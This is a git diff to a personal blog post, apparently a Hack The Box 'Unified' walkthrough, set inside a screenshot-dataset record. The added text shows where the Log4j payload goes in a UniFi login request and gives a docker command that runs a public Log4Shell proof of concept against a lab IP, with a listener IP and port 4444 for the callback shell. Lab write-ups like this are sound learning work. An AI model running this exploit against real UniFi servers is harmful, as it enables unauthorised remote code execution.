

Before and after one commit to benmeller/security-journey, an Astro site: page /blog/htb-starting-point/tier-2-unified in a window 1280 px wide. Shown: the part 3039-4340 px from the top of the page at 85% size. Before the commit the page ends 4013 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme; Astro itself is replaced by a stand-in of ours; code samples lack their colours; no server answers.

Commit message:
wip Unified box

````diff
--- a/src/content/blog/htb-starting-point/tier-2-unified.md
+++ b/src/content/blog/htb-starting-point/tier-2-unified.md
@@ -91,8 +91,23 @@ Default port is 27017
 **Task 9**
 What is the default database name for UniFi applications?
 
-It seems that we want machine access at this point. I tried to capture the traffic in tcpdump and wireshark, but since it's using TLS the data is encrypted. I could spend time setting that up, or the writeup just suggests to use a proxy like burpsuite. I think I will try that next time and examine the login request.
+It seems that we want machine access at this point. I tried to capture the traffic in tcpdump and wireshark, but since it's using TLS the data is encrypted. I could spend time setting that up, or the writeup just suggests to use a proxy like burpsuite. I will dive in and try to use burpsuite for the first time. A learning experience!
 
+Reading [this](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi) article from Sprocket security
+> The vulnerability is in the `rememberme` value issued in the login request
+>
+> ```
+> {"username":"asdf","password":"asdfas","remember":"<PAYLOAD>","strict":true}
+> ```
+
+In this situation, I will try and use the POC published by `puzzlepeaches`, found [here](https://github.com/puzzlepeaches/Log4jUnifi?tab=readme-ov-file)
+
+... one docker install later ...
+
+docker run -it -v $(pwd)/loot:/Log4jUnifi/loot -p 8090:8090 -p 1389:1389 log4junifi \
+    -u https://10.129.36.131:8443 -i 192.168.1.1 -p 4444
+
+Didn't accomplish too much in this session. Just installing docker and getting up and running with the POC.
 
 **Task 10**
 What is the function we use to enumerate users within the database in MongoDB?
@@ -112,3 +127,13 @@ Submit user flag
 
 **Task 14**
 Submit root flag
+
+
+
+
+
+
+echo \
+  "deb [arch=$(dpkg --print-architecture) signed-by=/etc/apt/keyrings/docker.asc] https://download.docker.com/linux/debian \
+  $(. /etc/os-release && echo "$VERSION_CODENAME") stable" | \
+  sudo tee /etc/apt/sources.list.d/docker.list > /dev/null
````
